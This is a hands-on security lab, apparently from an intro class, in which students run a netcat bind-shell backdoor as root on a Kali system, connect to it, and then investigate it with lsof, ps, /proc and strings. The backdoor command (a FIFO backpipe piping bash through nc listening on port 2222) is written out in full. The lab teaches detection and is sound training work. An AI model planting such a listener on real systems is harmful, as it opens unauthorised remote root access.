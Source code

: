 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running **three** different Kali terminals.

 > Terminal 1 is where the backdoor will be run.

 > Terminal 2 is where we will connect to the back door.

 > Terminal 3 is where we will be running our analysis.

***

Let’s get started by opening a terminal as **Administrator**, there are a few methods to do this.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your **Kali** terminal, please run the following command:

<pre>sudo su - </pre>

This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

Next, we will need to create a **FIFO** backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

<pre>/bin/bash backpipe 0&lt;backpipe | nc -l 2222 1>backpipe</pre>

In the above command, we are creating a **Netcat listener** that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the **Netcat listener**. 

On a more basic level, this will create a backdoor listening on port 2222 of our **Linux** system.

Now, let's open another **Kali** terminal.  This terminal will connect to the backdoor we just created.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our **linux** system:

<pre>ifconfig</pre>

![](attachments/ifconfigKaliInstance.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Now, let's connect:

<pre>nc 10.10.104.64 2222</pre>

**REMEMBER - YOUR IP WILL BE DIFFERENT**


It can be confusing to tell whether or not you are connected to the backdoor. 

Type a few commands to see if its working:

<pre>ls</pre>

<pre>whoami</pre>

![](attachments/lswhoamiKaliInstance.png)

At this point, we have created a backdoor with one terminal, and we have connected to this backdoor with another terminal.  Now, let's open yet another **Kali** terminal and use this use for the purpose of analysis.  

Let's begin by using one of the two methods used earlier to open a new **Kali** Terminal.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.  When we say root prompt we mean a terminal with the highest level of permission possible.  We want to be in a root prompt because looking at network connections and process information system wide requires root priviledges (or the highest level of priviledges).  

Let's start by looking at the network connections with **lsof**.  When we use **lsof**, we are looking at open files.  When we use the **-i** flag we are looking at the open Internet connections.  When we use the **-P** flag we are telling **lsof** to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the **netcat process ID**.  We can do this with the lowercase **-p** switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p [PID]</pre>

# Remember!!!  Your PID will be different!!!

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the **ps** command. We are also adding the **aux switches**.  

aux
* a is for all processes
* u is for sorted users
* x is for all processes using a teletype terminal

Type out this command.

<pre>ps aux</pre>

![](attachments/psauxKaliInstance.png)

Let's change directories into the **proc** directory for that **pid**.  Remember, **proc** is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/lsKaliInstance.png)

We can run strings on the exe in this directory.  When programs are created there may be usage information, mentions of system libraries, and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe | less</pre>

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

To reveal more information in the output, press **"enter"**.

![](attachments/netcatusageKaliInstance.png)

***
***Continuing on to the next Lab?***

[Click here to get back to the Navigation Menu](/IntroClassFiles/navigation.md)

***Finished with the Labs?***


Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)

---


